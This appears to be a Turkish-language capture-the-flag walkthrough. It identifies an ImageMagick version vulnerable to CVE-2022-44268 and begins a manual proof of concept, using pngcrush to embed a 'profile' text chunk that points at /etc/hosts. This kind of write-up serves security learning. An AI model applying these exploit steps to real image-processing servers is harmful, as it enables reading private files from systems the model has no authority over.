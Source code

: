 #### Identify CVE

**Repository**'de bir **magick** kopyası var ve bu bir çalıştırılabilir dosya (**executable**).

```
oxdf@hacky$ file magick 
magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped
```

Ayrıca şu komutu da çalıştıracak:

```
oxdf@hacky$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

Bu versiyonu arattığınızda CVE-2022-44268 için bir sürü referans bulabilirsiniz:

![Pasted image 20250107030044.png](/img/user/resimler/Pasted%20image%2020250107030044.png)

Sorun “profile” text stringinin ImageMagick tarafından nasıl ele alındığı ile ilgilidir. [Metabaseq'teki bu gönderi](https://www.metabaseq.com/imagemagick-zero-days/), ayrıntılarla gerçekten güzel bir iş çıkarıyor ve bu üst düzey açıklamayı sunuyor:

Kötü niyetli bir aktör, bir **PNG** dosyası oluşturabilir veya mevcut bir dosyayı kullanarak içine metinsel bir **chunk type** (örneğin, **tEXt**) ekleyebilir. Bu türlerin bir **keyword** (anahtar kelime) ve bir metin dizesi bulunur. Eğer **keyword**, tırnak işareti olmadan "profile" dizesiyse, **ImageMagick** bu metin dizisini bir dosya adı olarak yorumlar ve içeriği bir **raw profile** olarak yüklemeye çalışır. Belirtilen dosya adı "-" (tek bir tire) olduğunda, **ImageMagick** içeriği standart girdiden (**standard input**) okumaya çalışır ve bu durum potansiyel olarak sürecin sonsuza kadar beklemesine neden olabilir.

**ImageMagick**'te **profile**, bir görüntüde renklerin nasıl temsil edileceğini ve işleneceğini tanımlayan bir dizi renk yönetimi ayarını ifade eder.  
Renk yönetimi önemlidir, çünkü farklı cihazlar (örneğin, kameralar, monitörler ve yazıcılar) renkleri farklı şekilde yorumlayabilir ve yeniden üretebilir.  
**Profiles**, çeşitli cihazlar arasında tutarlı ve doğru renk temsili sağlamak için kullanılır.

### POC Exploit

#### Manual

Piyasada birçok POC komut dosyası var, ancak ben bunu manuel olarak yapmayı tercih ediyorum [Bu](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) Github sayfasında bunu yapmak için adımlar var. Genel bir PNG ile başlayacağım ve profil stringini eklemek için pngcrush kullanacağım:

```
oxdf@hacky$ pngcrush -text a "profile" "/etc/hosts" poc.png
  Recompressing IDAT chunks in poc.png to pngout.png
   Total length of data found in critical chunks            =     21089
   Best pngcrush method        =   6 (ws 15 fm 6 zl 9 zs 0) =     20070
CPU time decode 0.004922, encode 0.052924, other 0.001132, total 0.059650 sec
```

---